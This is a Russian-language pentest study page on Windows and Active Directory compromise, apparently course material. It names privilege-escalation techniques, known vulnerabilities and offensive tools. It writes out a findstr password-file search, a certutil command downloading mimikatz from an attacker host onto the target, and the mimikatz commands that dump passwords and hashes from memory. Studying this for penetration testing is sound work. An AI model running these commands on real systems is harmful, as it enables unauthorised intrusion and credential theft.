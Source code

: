 ### Компрометация Windows-машин в сети

## **Материалы для самостоятельного изучения**

- [Памятка](https://github.com/frostbits-security/MITM-cheatsheet) по атакам MITM
- [Телеграмм канал](https://t.me/c4s73r_channel) Магамы Базарова - эксперта по сетевым атакам
- [Responder](https://github.com/lgandx/Responder)
- [Все об атаках](https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/) на аутентификацию в Windows
- [О работе атаки](https://en.hackndo.com/ntlm-relay/) NTLM Relay


# Извлечение секретов и учетных данных
## Яркими представителями этой категории являются следующие методы повышения привилегий:
- Взлом менеджеров паролей пользователей по причине небезопасной конфигурации
- Обнаружение секретов и учетных в логах и истории команд
- Извлечение учетных данных из оперативной памяти
- Доступ к файлу, хранящемуся хеши пользовательских паролей 
- Извлечение учетных данных из конфигурации Групповых Политик

# Поиск секретов и паролей в ОС
В первую очередь мы помним, что можно попытаться самостоятельно поискать пароли в различных файлах ОС при помощи команд терминальной оболочки, например:

cd C:\ & findstr /s /p /i /n /m "password" *.xml *.ini *.txt *.config

Эта команда выполняет поиск строки "password" внутри всех файлов с расширениями .xml, .ini, .txt и .config в текущем диске C:.

Более подробно, каждая часть команды выполняет следующие действия:
cd C:\ — переходит в корневую папку диска C:
findstr — команда для поиска строк в файлах
/s — выполняет поиск строк во всех подпапках
/p — пропускает файлы с непечатными символами
/i — игнорирует регистр символов при поиске строк
/n — выводит номер строки, содержащей строку
/m — выводит только имя файла, если файл содержит совпадение


# Извлечение учетных данных из оперативной памяти
Самым ярким примером здесь будет извлечение учетных данных из оперативной памяти процессов.
Факт:
В Windows для реализации механизма HTTP Digest Authentication для поддержки SSO (Single Sign On) требуют знание вводимого пароля, а не только его хеша. Поэтому разработчики Windows решили хранить пароли пользователей в открытом виде. Для извлечения паролей и хешей из оперативной памяти можно использовать инструмент Mimikatz.


# Mimikatz — инструмент, реализующий функционал Windows Credentials Editor и позволяющий извлекать учетные данные пользователей Windows.
Дополнительную информацию по данному инструменту можно получить по следующим ссылкам: \
• Что такое Mimikatz: руководство для начинающих — https://habr.com/ru/company/varonis/blog/539340/ \
•  Справка по mimikatz — https://kali.tools/?p=5342

# Применение Mimikatz
•  Для загрузки инструмента mimikatz необходимо перейти в папку с правами на запись, например в C:\Windows\System32\spool\drivers\color.
•  Далее следует загрузить mimikatz на целевую машину. Это можно сделать утилитой, позволяющей скачивать файл по сети certutil: certutil -urlcache -split -f http://10.10.14.16/mimikatz.exe m.exe
•  После запуска Mimi нужно указать следующую команду, которая предоставит текущей учетной записи права отладки процессов (SeDebugPrivilege): privilege::debug
•  Следующая команда вернет список всех хранящихся на этой машине хешей и паролей в виде незашифрованного текста:sekurlsa::logonPasswords


## Условия для Mimikatz
Для того, чтобы Mimikatz успешно извлёк пароли и хеши, необходимы права SeDebugPrivilege, которые, как правило, есть у Администратора и нечасто встречаются у рядового пользователя. Тем не менее, процедура извлечения учётных данных из памяти необходима в рамках проведения работ по пентесту для возможности как вертикального, так и горизонтального перемещения.



# Эксплуатация уязвимостей конфигурации ОС Windows
В этой категории яркими примерами возможных методов повышения привилегий будут следующие:
• Повышение привилегий через права на создание резервных копий (SeBackupPrivilege)
• Повышение привилегий через через перехват сервиса (Weak Services Permission)
• Повышение привилегий через имперсонификацию SeImpersonatePrivilege (JyicyPotato)
• Повышение привилегий через права на установку ПО (AlwaysInstallElevated)
• Повышение привилегий через изменение пути бинарного файла сервиса (Service Binary Path)
• Повышение привилегий через подмену DLL библиотек (DLL Hijacking)
• Повышение привилегий через неэкранированные пути сервисов (Unquoted Service Paths)


# Эксплуатация известных уязвимостей ОС Windows
Приведем пример некоторых достаточно популярных уязвимостей ОС, позволяющих повысить привилегии до максимальных: \
• Уязвимость в установщике Windows (InstallerFileTakeOver (0day) \
• Уязвимость в Windows Print Spooler (PrintNightmare) \
• Уязвимость в планировщике задач Windows (MS10-092) \
• Уязвимость в ядре Windows (MS16_014) \
• Обработка вторичного входа в систему (MS16-032) \


# Рекомендуемые ресурсы
• Hacktrics: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

# Active Directory:
• Чеклист по тестированию защищенности Active Directory: 
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology
• Эксплуатация Zerologon: 
https://medium.com/mii-cybersec/zerologon-easy-way-to-take-over-active-directory-exploitation-c4b38c63a915
• Эксплуатация уязвимостей в AD CS
https://posts.specterops.io/certified-pre-owned-d95910965cd2

Помимо блогов, предлагаем вам подборку отличных инструментов, ориентированных на Active Directory, которые не только полезны, но и могут позволить вам изучить множество механизмов и протоколов Active Directory, просмотрев их код (это далеко не исчерпывающий список, и многие другие перечислены и показаны в статье выше).
• mimikatz:  вероятно, самый известный инструмент для атаки на Windows и Active Directory. Он реализует на C все виды атак для получения учетных данных с компьютеров Windows и выдачи себя за пользователей в Active Directory.
• impacket: Impacket реализует многие из протоколов на python, и стоит знать, как это работает, чтобы узнать о них больше. Он также включает в себя множество примеров, реализующих атаки, описанные в статье.
• responder.py: Responder позволяет вам выполнять множество PitM-атак, злоупотребляя протоколами разрешения Windows и предоставляя вам множество серверов протоколов, которые будут собирать NTLM-хэши. Стоит знать, как это работает.
• Rubeus: Rubeus – это пакет C# для выполнения атак Kerberos с компьютеров под управлением Windows. Вы можете проверить это, чтобы узнать много нового о том, как работает Kerberos.
• CrackMapExec: CME – это инструмент на python, который позволяет вам простым способом выполнять множество различных атак, описанных здесь.
• BloodHound: BloodHound позволяет вам сопоставлять сеть Active Directory с множеством различных запросов LDAP и другими. Вам следует проверить это, если вы хотите узнать о разведке Active Directory.
• Powerview: инструмент Powershell, который реализует множество LDAP-запросов Active Directory и других протоколов для извлечения всех видов информации из Active Directory.
• Empire: набор для развертывания агентов на компьютерах Active Directory, который позволяет выполнять все виды атак. Содержит множество инструментов для выполнения разведки и атак через Active Directory, которые стоит проверить.
